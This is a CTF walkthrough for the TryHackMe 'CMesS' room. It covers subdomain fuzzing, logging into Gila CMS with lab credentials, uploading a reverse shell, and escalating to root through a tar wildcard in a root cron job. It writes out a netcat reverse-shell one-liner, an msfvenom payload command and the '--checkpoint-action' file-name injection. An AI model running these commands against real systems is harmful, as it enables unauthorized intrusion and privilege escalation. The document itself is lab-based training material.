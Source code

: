 ```yaml
---

title: CMesS
published: true
category: CTF
system: web
walkthrough-type: thm
source: https://tryhackme.com/room/cmess
Description: Can you root this Gila CMS box?
tags: security, cmd, gila, tar, dns, wfuzz
---
```


# Notes

Nmap scan only shows 2 results ssh and port 80. Checking the site we find a gila cms but spending an hour poking around doesn't lead to anything. Gobuster results dont find anything.

# wfuzz

- `wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-
top1million-20000.txt --hc 400,404,403 -H "Host: FUZZ.cmess.thm" -u 
http://cmess.thm -t 100 -hw 290`

getting waaaay to many responses so we can use --hw

we find dev.cmess.thm lets add it to the /etc/hosts and enumerate

- `andre@cmess.thm:KPFTN_f2yxe%`

now that we have creds we can login and upload revshell to /tmp and edit the htaccess to allow and after setting up a listener we have a www-data shell

# privesc

crontab

*/2 *   * * *   root    cd /home/mandre/backup && tar -zcf /tmp/andre_backup.tar.gz *

so anything we put into the /home/mandre/backup dir will be backed up to tmp every 2 mins.

checking linpeas can find `-rwxrwxrwx 1 root root 36 Feb  6  2020 /opt/.password.bak`

su to anre or ssh in `andre:UQfsdCB7aAP6`

# wildcard esc

1. create payload `msfvenom -p cmd/unix/reverse_netcat lhost 10.2.3.64 lport=6679 R`
2. copy and paste the payload 
3. `echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh`
4. `echo "" > "--checkpoint-action=exec=sh shell.sh"`
5. `echo "" > --checkpoint=1`

have listener setup and wait for response and collect root flag!